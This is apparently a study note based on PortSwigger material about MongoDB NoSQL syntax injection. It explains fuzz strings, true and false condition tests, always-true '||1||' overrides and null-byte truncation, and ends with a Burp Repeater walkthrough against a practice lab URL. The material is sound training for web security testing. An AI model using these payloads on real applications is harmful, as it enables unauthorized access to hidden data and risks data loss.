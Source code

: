 # NoSQL syntax injection

## Detecting syntax injection in MongoDB

Consider a shopping application that displays products in different categories. When the user selects the **Fizzy drinks** category, their browser requests the following URL:

`https://insecure-website.com/product/lookup?category=fizzy`

This causes the application to send a JSON query to retrieve relevant products from the `product` collection in the MongoDB database:

```
this.category == 'fizzy'
```

To test whether the input may be vulnerable, submit a fuzz string in the value of the `category` parameter. An example string for MongoDB is:

```
'"`{
;$Foo}
$Foo \xYZ
```

Use this fuzz string to construct the following attack:

```
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```

If this causes a change from the original response, this may indicate that user input isn't filtered or sanitized correctly.

{% hint style="info" %}
**Note**

NoSQL injection vulnerabilities can occur in a variety of contexts, and you need to adapt your fuzz strings accordingly. Otherwise, you may simply trigger validation errors that mean the application never executes your query.

In this example, we're injecting the fuzz string via the URL, so the string is URL-encoded. In some applications, you may need to inject your payload via a JSON property instead. In this case, this payload would become ``'\"`{\r;$Foo}\n$Foo \\xYZ\u0000``.
{% endhint %}

### Determining which characters are processed

To determine which characters are interpreted as syntax by the application, you can inject individual characters. For example, you could submit `'`, which results in the following MongoDB query:

```
this.category == '''
```

If this causes a change from the original response, this may indicate that the `'` character has broken the query syntax and caused a syntax error. You can confirm this by submitting a valid query string in the input, for example by escaping the quote:

```
this.category == '\''
```

If this doesn't cause a syntax error, this may mean that the application is vulnerable to an injection attack.

### Confirming conditional behavior

After detecting a vulnerability, the next step is to determine whether you can influence boolean conditions using NoSQL syntax.

To test this, send two requests, one with a false condition and one with a true condition. For example you could use the conditional statements `' && 0 && 'x` and `' && 1 && 'x` as follows:

```
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
```

```
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```

If the application behaves differently, this suggests that the false condition impacts the query logic, but the true condition doesn't. This indicates that injecting this style of syntax impacts a server-side query.

### Overriding existing conditions

Now that you have identified that you can influence boolean conditions, you can attempt to override existing conditions to exploit the vulnerability. For example, you can inject a JavaScript condition that always evaluates to true, such as `'||1||'`:

```
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27
```

This results in the following MongoDB query:

```
this.category == 'fizzy'||'1'=='1'
```

As the injected condition is always true, the modified query returns all items. This enables you to view all the products in any category, including hidden or unknown categories.

{% hint style="info" %}
**Warning**

Take care when injecting a condition that always evaluates to true into a NoSQL query. Although this may be harmless in the initial context you're injecting into, it's common for applications to use data from a single request in multiple different queries. If an application uses it when updating or deleting data, for example, this can result in accidental data loss.
{% endhint %}

You could also add a null character after the category value. MongoDB may ignore all characters after a null character. This means that any additional conditions on the MongoDB query are ignored. For example, the query may have an additional `this.released` restriction:

```
this.category == 'fizzy' && this.released == 1
```

The restriction `this.released == 1` is used to only show products that are released. For unreleased products, presumably `this.released == 0`.

In this case, an attacker could construct an attack as follows:

```
https://insecure-website.com/product/lookup?category=fizzy'%00
```

This results in the following NoSQL query:

```
this.category == 'fizzy'\u0000' && this.released == 1
```

If MongoDB ignores all characters after the null character, this removes the requirement for the released field to be set to 1. As a result, all products in the `fizzy` category are displayed, including unreleased products.



## Lab

{% embed url="https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-detection" %}

The product category filter for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.

To solve the lab, perform a NoSQL injection attack that causes the application to display unreleased products.



### Steps

* Open burp suite
* Visit the target website
* Send the [https://0a1e006f03df90bf8527f42200420044.web-security-academy.net/filter?category=Accessories](https://0a1e006f03df90bf8527f42200420044.web-security-academy.net/filter?category=Accessories) URL to repeater
* Enter the payload after **filter?category=Accessories** `%27%7c%7c%31%7c%7c%27`

```
https://0a1e006f03df90bf8527f42200420044.web-security-academy.net/filter?category=Accessories%27%7c%7c%31%7c%7c%27
```

* \$$$

